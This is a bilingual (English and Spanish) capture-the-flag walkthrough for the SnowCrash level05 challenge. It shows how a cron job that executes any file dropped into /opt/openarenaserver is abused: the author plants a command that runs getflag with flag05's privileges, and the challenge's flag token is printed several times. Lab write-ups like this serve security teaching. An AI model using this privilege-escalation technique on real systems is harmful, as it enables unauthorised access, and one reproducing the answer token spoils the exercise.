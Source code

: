 # Flag 05

## Tools Used:

* `cat` command
* Basic knowledge of cron jobs
* Shell scripting (`sh`, `bash`, `ulimit`, `wall`)

## Process:

Upon logging into the `level05` account, a message appears indicating that the user has mail. Checking the mail reveals a cron job:

```bash
level05@SnowCrash:~$ echo $MAIL
/var/mail/level05

level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This shows that every 2 minutes, a script (`/usr/sbin/openarenaserver`) is executed as the `flag05` user.

Inspecting the script:

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

### Key observations:

1. The script runs any file placed inside `/opt/openarenaserver` with `flag05` privileges.
2. Files are executed with a limited CPU time (`ulimit -t 5`) and then deleted.

### Exploitation:

To exploit this, we place a simple script that calls `getflag` and uses `wall` to broadcast the result:

```bash
level05@SnowCrash:~$ echo 'getflag | wall' > /opt/openarenaserver/1
```

After waiting for the cron job to execute (maximum 2 minutes), the flag appears as a broadcast message:

```
Broadcast Message from flag05@Snow
        (somewhere) at 13:42 ...

Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

# Flag 05

## Herramientas Utilizadas:

* Comando `cat`
* Conocimientos básicos de cron jobs
* Scripting en Shell (`sh`, `bash`, `ulimit`, `wall`)

## Proceso:

Al iniciar sesión en la cuenta `level05`, se muestra un mensaje indicando que el usuario tiene correo. Al revisar el correo encontramos un cron job:

```bash
level05@SnowCrash:~$ echo $MAIL
/var/mail/level05

level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Este cron job ejecuta cada 2 minutos un script (`/usr/sbin/openarenaserver`) como usuario `flag05`.

Al inspeccionar el script:

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

### Observaciones clave:

1. El script ejecuta cualquier archivo colocado en `/opt/openarenaserver` con los privilegios de `flag05`.
2. Los archivos se ejecutan con un tiempo limitado de CPU y luego se eliminan.

### Explotación:

Para explotar esta vulnerabilidad, colocamos un script sencillo que llame a `getflag` y use `wall` para mostrar el resultado:

```bash
level05@SnowCrash:~$ echo 'getflag | wall' > /opt/openarenaserver/1
```

Después de esperar a que se ejecute el cron job (máximo 2 minutos), la flag aparece en un mensaje broadcast:

```
Broadcast Message from flag05@Snow
        (somewhere) at 13:42 ...

Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## Scripts Used:

```bash
getflag | wall
```

## Flag:

```
viuaaale9huek52boumoomioc
```